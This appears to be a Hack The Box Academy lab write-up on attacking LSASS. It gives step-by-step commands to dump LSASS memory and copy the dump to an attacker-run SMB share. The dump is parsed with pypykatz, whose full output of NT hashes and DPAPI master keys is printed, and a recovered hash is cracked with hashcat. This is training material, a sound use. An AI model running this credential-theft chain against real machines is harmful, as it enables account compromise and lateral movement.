



## Attacking LSASS

1. connect to the target machine using rdp.

```
xfreerdp /v:$target_ip /u:htb-student /p:HTB_@cademy_stdnt!
```

<p align="center">
  
</p>

2. open task manager and create a dump file for lsass.

<p align="center">
  
</p>

3. go to `%temp%`.

<p align="center">
  
</p>

4. open a second terminal and create a share with smbserver.

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/kali/htb/password-attacks/sam-system-security
```

5. move the lsass dump to the smb share.

```
PS C:\Users\htb-student\AppData\Local\Temp> move .\lsass.DMP \\10.10.14.103\CompData
```

6. use pypykatz to analyze the lsass dump.

```
pypykatz lsa minidump ./lsass.DMP > lsass-analysis.txt
```

output:
```
FILE: ======== ./lsass.DMP =======
== LogonSession ==
authentication_id 278988 (441cc)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-11-22T00:45:44.817493+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 278988
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [441cc]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [441cc]==
                username htb-student
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 258074 (3f01a)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-11-22T00:45:43.926915+00:00
sid S-1-5-90-0-2
luid 258074
        == WDIGEST [3f01a]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [3f01a]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 258039 (3eff7)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2026-11-22T00:45:43.926915+00:00
sid S-1-5-90-0-2
luid 258039
        == WDIGEST [3eff7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [3eff7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 41444 (a1e4)
session_id 0
username 
domainname 
logon_server 
logon_time 2026-11-22T00:44:09.364374+00:00
sid None
luid 41444

== LogonSession ==
authentication_id 279017 (441e9)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-11-22T00:45:44.817493+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 279017
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [441e9]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [441e9]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == DPAPI [441e9]==
                luid 279017
                key_guid c75b5a96-7d80-4511-8bb8-474e3c09670f
                masterkey 12e8cc72d4d672d492fc8878c736aea970e11d74e87061fe779ce8884c9f0cb20cd0db541f95440ed8c4d527a91682fb7721ba397700932a49c8dbb7120cd2c8
                sha1_masterkey a34f57ba87672c43f091934906052ac4cf7364f7

== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2026-11-22T00:44:09.270622+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid 7a4c5806-cde2-4e33-bb8e-a7988d928856
                masterkey 3036713f3ccfde362f57050b050289413347b9063264743b01c65e4143c6806512ece05c708b934afe48cd5b8cfe88de125d6208bbe048bd3fb83838adf2946e
                sha1_masterkey 6c3046d0bc927cdfd9b4503c6115034018dbddd1
        == DPAPI [3e7]==
                luid 999
                key_guid f832b740-145d-4829-be8c-be0a0c68aa49
                masterkey 089d98edfe5beef3ce7781e5e1225f739c67aded8f12ecbf8ee7012eae33c089a9848893794c37036e912ceb05e77ce6c0943d53b862963ce1346ddae7fc3cbb
                sha1_masterkey e3d62da8c6fdc3349c438169cabb839ec97b8368
        == DPAPI [3e7]==
                luid 999
                key_guid 0c1b6c0a-191d-4839-8cf5-22ca4c3e5880
                masterkey dccd4056a5b0cc8211193669e6aea7755eeccd393adf0e5efa1f2a571c96039a7dbe05c9082c44f85b3080bb908eb41fb9f860174cd365e655f3d5788d5a8427
                sha1_masterkey efddd94b4348303e90c8d7285e8b65738196dc86
        == DPAPI [3e7]==
                luid 999
                key_guid 0453985c-7220-49f4-b024-79acf0de7874
                masterkey aaf3cdd36cf0d10871efd0d78a527664afc58078e84d49734f372fbb09e209538f606e0c5f0481b9f4d6ac6efb9a3631f16e38737a1b3cc15d0db42b63ebc90e
                sha1_masterkey 1d77f450edb6c76d14838b5b351672f35eec615f
        == DPAPI [3e7]==
                luid 999
                key_guid c19ecbf1-ea92-487e-a2d4-419f60a62360
                masterkey 387a060baf6887038b7ff133cd0eb4712ecdf531c16030a82395db368e6b2cda563dd026ccb815e1fb85215281a5437f085e3a5ca47fe9038e7e072f46270d74
                sha1_masterkey 5b07ca8e21e100937af4ab6d3f2482c745245436
        == DPAPI [3e7]==
                luid 999
                key_guid 6c61536b-7453-4ffa-911b-693858aef0c9
                masterkey 0c5f662bf8f65c75b773e4698606db1e2e387ad18a9c4fdee25e0dbac6eb7c04e04874d1910aba465ef3380a92b46231d7a781df2f5e38d2621e06c7476b222f
                sha1_masterkey cbabadd23d93b47ec94ac604ac91945135c5a097

== LogonSession ==
authentication_id 253889 (3dfc1)
session_id 0
username htb-student
domainname FS01
logon_server FS01
logon_time 2026-11-22T00:45:42.786266+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 253889

== LogonSession ==
authentication_id 124687 (1e70f)
session_id 0
username Vendor
domainname FS01
logon_server FS01
logon_time 2026-11-22T00:44:11.536232+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1003
luid 124687
        == MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1e70f]==
                username Vendor
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: Vendor
                Domain: FS01
        == WDIGEST [1e70f]==
                username Vendor
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 72479 (11b1f)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-11-22T00:44:10.036252+00:00
sid S-1-5-90-0-1
luid 72479
        == WDIGEST [11b1f]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11b1f]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 996 (3e4)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2026-11-22T00:44:09.770620+00:00
sid S-1-5-20
luid 996
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 42601 (a669)
session_id 1
username UMFD-1
domainname Font Driver Host
logon_server 
logon_time 2026-11-22T00:44:09.629991+00:00
sid S-1-5-96-0-1
luid 42601
        == WDIGEST [a669]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [a669]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 256699 (3eabb)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2026-11-22T00:45:43.895616+00:00
sid S-1-5-96-0-2
luid 256699
        == WDIGEST [3eabb]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [3eabb]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 997 (3e5)
session_id 0
username LOCAL SERVICE
domainname NT AUTHORITY
logon_server 
logon_time 2026-11-22T00:44:10.129992+00:00
sid S-1-5-19
luid 997
        == Kerberos ==
                Username: 
                Domain: 

== LogonSession ==
authentication_id 72500 (11b34)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2026-11-22T00:44:10.036252+00:00
sid S-1-5-90-0-1
luid 72500
        == WDIGEST [11b34]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11b34]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 42570 (a64a)
session_id 0
username UMFD-0
domainname Font Driver Host
logon_server 
logon_time 2026-11-22T00:44:09.629991+00:00
sid S-1-5-96-0-0
luid 42570
        == WDIGEST [a64a]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [a64a]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
```

`Vendor`'s nt hash: 31f87811133bc6aaa75a536e77f64314.

7. use hashcat mode 1000 to crack the nt hash.

```
sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt
```